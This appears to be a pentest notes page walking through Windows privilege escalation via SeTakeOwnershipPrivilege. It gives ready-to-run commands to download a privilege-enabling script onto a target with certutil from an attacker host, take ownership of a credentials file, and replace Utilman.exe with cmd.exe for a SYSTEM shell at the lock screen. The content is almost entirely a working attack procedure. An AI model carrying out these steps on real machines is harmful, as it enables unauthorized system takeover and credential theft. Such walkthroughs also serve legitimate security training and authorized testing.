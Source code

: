 ```yaml
---
legal-banner: true
---
```


### **INTRODUCTION**

SeTakeOwnershipPrivilege grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns WRITE_OWNER rights over an object, allowing the user to change the owner within the object's security descriptor. While administrators have this privilege by default, it can also be assigned to service accounts for specific tasks.

### **STEP 1. ENABLING SETAKEOWNERSHIPPRIVILEGE**

1.  Verify if current user has SeTakeOwnershipPrivilege privileges by running:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/169.png)
    
2.  Download the EnableAllTokenPrivs.ps1 script to enable SeBackupPrivilege.  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/170.png)
    
3.  Transfer the binary to the target machine using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/171.png)

    **NOTE:** To Enable the SeTakeOwnershipPrivilege privilege, import the script using:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
4.  Verify privileges,Ensure that SeTakeOwnershipPrivilege is now enabled  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/172.png)
    

### **STEP 2. CHOOSING A TARGET FILE**

1.  Identify a target file that you want to take ownership of. In this example, we will use cred.txt located in a file share.  
    `Get-ChildItem -Path 'C:\Secrets\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}`  
    
    ![](../../../img/Windows-Environment/173.png)
    
2.  Check the ownership of the directory to ensure it is not owned by your current user account:  
    `cmd /c dir /q 'C:\Secrets'`  
    
    ![](../../../img/Windows-Environment/174.png)
    

### **STEP 3. TAKING OWNERSHIP OF THE FILE**

1.  Use the takeown command to change the ownership of the file:  
    `takeown /f 'C:\Secrets\cred.txt'`  
    
    ![](../../../img/Windows-Environment/175.png)
    
2.  Confirm the ownership change by checking the owner of the file again.  
    `Get-ChildItem -Path 'C:\Secrets\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}`  
    
    ![](../../../img/Windows-Environment/176.png)
    
3.  Grant your user account full control over the file using the `icacls` command                         
    `icacls 'C:\Secrets\cred.txt' /grant hackfast:F`

    ![](../../../img/Windows-Environment/177.png)    

    **NOTE:** Verify that you can read the file: `cat 'C:\Secrets\cred.txt'`
    

### **EXPLOITING WITH UTILMAN**

1.  Since Utilman is run with SYSTEM privileges, we can gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.  
    `icacls "C:\Windows\System32\Utilman.exe"`  
    
    ![](../../../img/Windows-Environment/178.png)

2.  To replace utilman, we will start by taking ownership of it with the following command:  
    `takeown /f C:\Windows\System32\Utilman.exe`  
    
    ![](../../../img/Windows-Environment/179.png)

    **NOTE:** being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need.
3.  To give your user full permissions over utilman.exe you can use the following command:  
    `icacls C:\Windows\System32\Utilman.exe /grant hackfast:F`  
    `icacls "C:\Windows\System32\Utilman.exe"`  
    
    ![](../../../img/Windows-Environment/180.png)

4.  we need to replace utilman.exe with a copy of cmd.exe, (if you can back up utilman it could be great)  
    `copy cmd.exe utilman.exe`  
    
    ![](../../../img/Windows-Environment/181.png)

5.  To trigger utilman, we will lock our screen from the start button:  
    
    ![](../../../img/Windows-Environment/182.png)

6.  And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:  
    
    ![](../../../img/Windows-Environment/183.png)